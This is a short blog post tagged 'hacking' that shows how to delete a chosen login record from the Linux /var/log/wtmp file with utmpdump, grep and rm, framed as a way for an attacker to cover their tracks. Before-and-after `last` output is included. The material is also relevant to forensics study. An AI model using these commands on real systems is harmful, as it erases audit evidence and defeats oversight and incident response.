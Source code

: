 ```yaml
---
layout: post
title: Modify a line in wtmp - Linux Accounting
excerpt: "The /var/log/wtmp file in a Linux system contains data about past user logins."
modified: 2016-03-12
tags: [hacking]
comments: false
category: blog
---
```


The **/var/log/wtmp** file in a Linux system contains data about past user logins.  An attacker may want to modify this file as one of the steps they take in covering their track.  One may also want to modify utmp or btmp as well.  This same technique can be used.

The wtmp log is a binary format and is owned by root:

```
root@ubuntu:/home/ken# ls -als /var/log/wtmp
12 -rw-rw-r-- 1 root utmp 9984 Feb 15 09:00 /var/log/wtmp
```

It can be viewed using the last command, as shown below:

```
root@ubuntu:/home/ken# last -f /var/log/wtmp
ken      pts/0        192.168.3.69     Wed Feb 15 09:00   still logged in
ken      pts/1        192.168.3.69     Fri Feb 10 11:41 - 11:47  (00:05)
ken      pts/0        192.168.3.69     Fri Feb 10 07:45 - 20:10  (12:25)
reboot   system boot  4.2.0-16-generic Thu Feb  9 08:33   still running
ken      pts/1        192.168.3.69     Mon Feb  6 10:23 - down  (2+09:49)
ken      pts/0        192.168.3.69     Mon Feb  6 10:15 - 18:59 (2+08:43)
ken      tty1                          Mon Feb  6 10:08 - 10:22  (00:14)
reboot   system boot  4.2.0-16-generic Mon Feb  6 10:07 - 20:13 (2+10:05)

wtmp begins Mon Feb  6 10:07:23 2017

```

The **utmpdump** works great for this and may be on the image by default.  In this case, let's say we want to remove the entry that shows user ken logged in from the console (tty1).  Here is how to do it:

```
utmpdump /var/log/wtmp | grep -v "tty1" > temp.txt
utmpdump -r &lt; temp.txt > /var/log/wtmp
rm -f temp.txt # Use 'shred' if it is installed
```

Now, let's take a look at the output again using the 'last' command:

```
root@ubuntu:/home/ken# last -f /var/log/wtmp
ken      pts/0        192.168.3.69     Wed Feb 15 09:00   still logged in
ken      pts/1        192.168.3.69     Fri Feb 10 11:41 - 11:47  (00:05)
ken      pts/0        192.168.3.69     Fri Feb 10 07:45 - 20:10  (12:25)
reboot   system boot  4.2.0-16-generic Thu Feb  9 08:33   still running
ken      pts/1        192.168.3.69     Mon Feb  6 10:23 - down  (2+09:49)
ken      pts/0        192.168.3.69     Mon Feb  6 10:15 - 18:59 (2+08:43)
reboot   system boot  4.2.0-16-generic Mon Feb  6 10:07 - 20:13 (2+10:05)

wtmp begins Mon Feb  6 10:07:23 2017

```

Note that the line is now missing.  Of course, the timestamp on wtmp has also been updated, but that is a different issue:

```
root@ubuntu:/home/ken# ls -als /var/log/wtmp
8 -rw-rw-r-- 1 root utmp 5760 Feb 16 15:46 /var/log/wtmp
```
